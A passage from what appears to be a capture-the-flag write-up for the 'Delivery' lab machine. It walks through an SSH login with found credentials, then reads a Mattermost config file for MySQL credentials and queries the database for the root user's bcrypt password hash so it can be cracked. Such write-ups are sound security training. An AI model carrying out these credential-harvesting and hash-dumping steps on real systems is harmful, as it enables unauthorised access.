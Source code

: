 The `root` user had left the credentials of the `maildeliverer` account! He also talked about not using a password that is a variant of `PleaseSubscribe!`. Maybe we are suppose to find a hash and crack it?

## Port 22 `OpenSSH 7.9p1`

Using the `maildeliverer:Youve_G0t_Mail!` credentials we found, we can `ssh` as `maildeliverer`.

```bash
$ ssh maildeliverer@delivery.htb
Warning: Permanently added the ECDSA host key for IP address '10.10.10.222' to the list of known hosts.
maildeliverer@delivery.htb's password: Youve_G0t_Mail!
maildeliverer@Delivery:~$ id 
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```
# user.txt

The user flag is in the home directory of `maildeliverer`.

```bash
maildeliverer@Delivery:~$ cat user.txt
730aXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (2)

Since there was a `root` user with the email `root@delivery.htb` in the `Mattermost` server, lets check out its config files for any juicy information. Its config settings are stored in `/opt/mattermost/config/config.json`.

```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json
...
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

We spotted some `MySQL` credentials! The `Crack_The_MM_Admin_PW` is probably telling us to find a hash of the `root` account from the `Mattermost`'s database and crack it!

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -ummuser -p
Enter password: Crack_The_MM_Admin_PW

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+

MariaDB [mattermost]> select Username, Password,Email   from Users where Username="root";
+----------+--------------------------------------------------------------+-------------------+
| Username | Password                                                     | Email             |
+----------+--------------------------------------------------------------+-------------------+
| root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | root@delivery.htb |
+----------+--------------------------------------------------------------+-------------------+
```
